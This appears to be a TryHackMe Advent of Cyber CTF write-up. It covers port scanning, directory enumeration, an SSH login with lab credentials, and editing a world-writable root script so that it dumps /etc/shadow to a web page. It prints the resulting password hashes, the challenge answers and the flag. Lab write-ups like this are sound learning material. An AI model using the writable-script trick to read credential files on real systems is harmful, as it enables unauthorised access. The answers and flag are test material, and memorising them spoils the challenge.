




Target: `10.10.173.70`

Open ports: `80,22`

```shell
┌──(kryssar㉿kali)-[/mnt/hgfs/VMSHARED/tryhackme]
└─$ sudo nmap -Pn 10.10.173.70

Starting Nmap 7.92 ( https://nmap.org ) at 2021-12-17 13:30 CET
Verbosity Increased to 1.
Verbosity Increased to 2.
Verbosity Increased to 3.
Completed SYN Stealth Scan at 13:30, 2.17s elapsed (1000 total ports)
Nmap scan report for 10.10.173.70
Host is up (0.41s latency).
Scanned at 2021-12-17 13:30:11 CET for 2s
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

```

When browsing to the IP, a webpage is displayed but it doesn't offer much more than a static page. 


which means it's time to bring out `gobuster`

```shell
┌──(kryssar㉿kali)-[/mnt/hgfs/VMSHARED/tryhackme]
└─$ gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u http://10.10.173.70
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.173.70
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Timeout:                 10s
===============================================================
2021/12/17 13:43:43 Starting gobuster in directory enumeration mode
===============================================================
/warez                (Status: 200) [Size: 606]
/admin                (Status: 200) [Size: 363]
```

or dirbuster, just to try out something else: 
```shell
┌──(kryssar㉿kali)-[/mnt/hgfs/VMSHARED/tryhackme]
└─$ dirb http://10.10.173.70

-----------------
DIRB v2.22    
By The Dark Raver
-----------------

START_TIME: Fri Dec 17 14:11:35 2021
URL_BASE: http://10.10.173.70/
WORDLIST_FILES: /usr/share/dirb/wordlists/common.txt

-----------------

GENERATED WORDS: 4612                                                          

---- Scanning URL: http://10.10.173.70/ ----
+ http://10.10.173.70/admin (CODE:200|SIZE:363)                            
+ http://10.10.173.70/index.html (CODE:200|SIZE:169)
+ http://10.10.173.70/server-status (CODE:403|SIZE:277)
+ http://10.10.173.70/warez (CODE:200|SIZE:606)
```


interesting folders: `/warez, /admin`

where `/warez` seems to be a loot folder for the grinch, might be worth exploring later on.

the admin-page has a text-box that looks interestingly enough like output from the linux `ls` command.



and this part of the `view-source` confirms the suspicion: 
```html
<iframe src="ls.html"  height="200" width="700" title="The loot folder contains the following"></iframe> 
```

the page itself is just showing the output.  
```view-source:http://10.10.173.70/ls.html

defnottest.txt
nottest.txt
test.txt
test2.txt
```

McSkidy has some SSH credentials to the server, which can be used for further enumeration. 

```shell
ssh mcskidy@10.10.173.70
password: Password1
```

In the grinch´s homefolder there's a folder called `loot` and the contents look just like the output in `ls.html`

```shell
mcskidy@ip-10-10-173-70:/home/thegrinch$ ls -al loot/
total 8
drwxrwxrwx 2 root      root      4096 Nov 11 20:11 .
drwxr-xr-x 7 thegrinch thegrinch 4096 Nov 11 19:50 ..
-rw-r--r-- 1 root      root         0 Nov 11 06:37 defnottest.txt
-rw-r--r-- 1 root      root         0 Nov 11 06:27 nottest.txt
-rw-r--r-- 1 root      root         0 Nov 11 06:26 test.txt
-rw-r--r-- 1 root      root         0 Nov 11 07:04 test2.txt
```

unfortunately we can't do anything with these files because of the permissions on our current user.

"somebody" did mess up the permissions on the script responsible for the loot though. 

```shell
mcskidy@ip-10-10-173-70:/home/thegrinch/scripts$ ls -al
total 20
drwxr-xr-x 2 root      root      4096 Nov 11 20:03 .
drwxr-xr-x 7 thegrinch thegrinch 4096 Nov 11 19:50 ..
-rwx------ 1 root      root       286 Nov 11 20:03 check.sh
-rwx------ 1 root      root        58 Nov 11 09:00 cleanup.sh
-rwxrwxrwx 1 root      root        61 Nov 11 19:56 loot.sh
-rwx------ 1 root      root         0 Nov 11 07:58 test.sh
```

we have full access to the `loot.sh` and can change that to our advantage. Whatever file we want to read, we'll just have to change loot.sh and then wait for the homepage to update and we can read the contents via the browser.

change the script to print out something more fun, like `/etc/shadow`

```bash
#!/bin/bash
cat /etc/shadow > /var/www/html/ls.html
#ls /home/thegrinch/loot > /var/www/html/ls.html
```

after a short while, refresh `view-source:http://10.10.173.70/ls.html`

and now we have the users and hashed passwords.

```shell
thegrinch:$6$iiajscL7$7YgS0mCSs8ROHgS/4VP1itLix.T7onR26n4gdHFNAYnF/jVY7N4No11Yuy2RtLwXxJE3Vzl6zBdXXu5GUBJCj0:18942:0:99999:7:::
mcskidy:$6$g81UcX1e$az/mXtNiOt9tMDb6lixDN3c1yH2GhcJVlAIWYB/WYNgujmxHafZdhD91ppxB.x7RIkH9DbpS6XQxe0piA2p2L1:18942:0:99999:7:::
pepper:$6$GZUP42Y2$QYDESrTO9T517RDzR6cGXOANA/H4For7odahhn/DUdeWfEXtG9ZLHnZl4PLbfm8WF0GRB4ti9ij6w0NwBPunI/:18942:0:99999:7:::
```

lets read some other stuff we couldn't before, like the `check.sh` script.

change content to:  
```bash
cat /home/thegrinch/scripts/check.sh > /var/www/html/ls.html
```

the grinch seems to have a password reminder he built himself, sneaky little hobbit he is.

```bash
#Secret password reminder script V 1.0

response=$(curl -s http://localhost/ls.html)
content=$(echo $response > /tmp/check.txt)

if grep "remindme.txt" /tmp/check.txt
then
    echo  "ELFSareFAST"  > /var/www/html/pass.html
else
    echo "Error" > /dev/null
# rm /tmp/check.txt
fi
```

so if the `ls.html` contains `remindme.txt` the grinch will put his password in a file called `pass.html` which we can read via the browser as well.

The password should be `ELFSareFAST` though considering that's what the bash script says will be printed into `pass.html` but for fun we'll try it out.

change loot.sh to it's original state, and create the `remindme.txt` file. 

```shell 
mcskidy@ip-10-10-173-70:/home/thegrinch/loot$ touch remindme.txt

mcskidy@ip-10-10-173-70:/home/thegrinch/scripts$ cat loot.sh 
#!/bin/bash
ls /home/thegrinch/loot > /var/www/html/ls.html
```

visit the page, get the password:  



how many folders did dirb find with the default list: `4`

how many scripts do you see: `4`

what are the 5 characters: `ZUP42`

what is the content of flag.txt: `DI3H4rdIsTheBestX-masMovie!`

the `/warez` folder was just informational:



EOF